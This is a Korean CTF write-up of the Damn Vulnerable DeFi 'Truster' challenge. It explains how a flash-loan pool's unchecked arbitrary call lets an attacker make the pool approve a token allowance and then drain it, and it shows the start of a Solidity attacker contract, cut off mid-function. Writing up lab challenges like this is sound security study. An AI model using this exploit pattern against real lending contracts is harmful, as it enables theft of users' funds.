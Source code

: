
receiver contract의 owner체크 필요

flashloan으로 빌릴 토큰이 소진하는 토큰(수수료) 보다 같거나 많은 지 체크

# Challenge #3 - Truster

### 설명

*More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.*

*Currently the pool has 1 million DVT tokens in balance. And you have nothing.*

*But don’t worry, you might be able to take them all from the pool. In a single transaction.*

### 목표

attacker가 pool의 balance 다 가져가기

### 분석

flashloan에서 0개 토큰 체크 안함.

flashloan 실행 주체가 누구인지 확인 안함.

target에 functionCall 가능.

### 공격

공격 contract에서 0개 토큰을 빌리는 flashloan 수행.

이 때 functionCall은 approve 함수를 수행하여 pool contract의 권한 획득!

그 다음은 마음대로!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../truster/TrusterLenderPool.sol";

contract TrusterLenderAttacker {
    IERC20 immutable dvt;
    TrusterLenderPool immutable pool;
    address immutable owner;
    uint256 immutable poolToken;

    constructor(
        address _dvtAddress,
        address _poolAddr,
        uint256 _poolToken
    ) {
        dvt = IERC20(_dvtAddress);
        pool = TrusterLenderPool(_poolAddr);
        owner = msg.sender;
        poolToken = _poolToken;
    }

    function drain() external {
        require(msg.sender == owner);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            poolToken
```